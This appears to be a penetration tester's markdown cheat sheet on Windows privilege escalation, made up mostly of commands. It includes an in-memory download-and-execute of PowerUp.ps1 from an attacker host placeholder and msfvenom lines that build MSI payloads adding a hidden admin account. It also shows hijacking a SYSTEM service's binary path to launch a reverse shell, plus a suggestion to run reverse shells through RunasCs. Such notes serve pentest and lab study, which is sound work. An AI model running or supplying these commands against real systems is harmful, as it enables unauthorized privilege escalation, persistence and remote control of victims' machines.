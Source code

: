 ## RunasCs.exe
Windows script to run specific processes under a different user account
```powershell
PS > .\RunasCs.exe $Username $Password $Command
```
Command can be like `msfvenom reverse shell`
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
# Services
## Service
- Check all services with `sc query`
```cmd
> sc.exe query state=all
```
- Query configuration of a service
```powershell
PS > sc qc <service>
```
- Check access
## Access Check 
- Check `<user>` access to a particular  `service`
```powershell
PS > accesschk /accepteula -uwcqv <user> <service>
```
## Service Permissions
# PowerUp.ps1
```powershell
PS > iex (iwr -usebasicparsing http://<IP>:<PORT>/PowerUp.ps1)
PS > Invoke-AllChecks
```
# Dangerous Settings
## #AlwaysInstallElevated 
Use [[Tools/Frameworks/Metasploit#Generate Payload]] to create `.msi` reverse-shell and send it with [[File Transfer]]
```shell-session
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
## #service_change_config 
If the service runs with `SYSTEM` privileges, change the binary path of the service to our malicious reverse shell and restart it.
```powershell
> sc config <service> binpath= "\"C:\Path\to\rev-shell""
> net start <service>
```

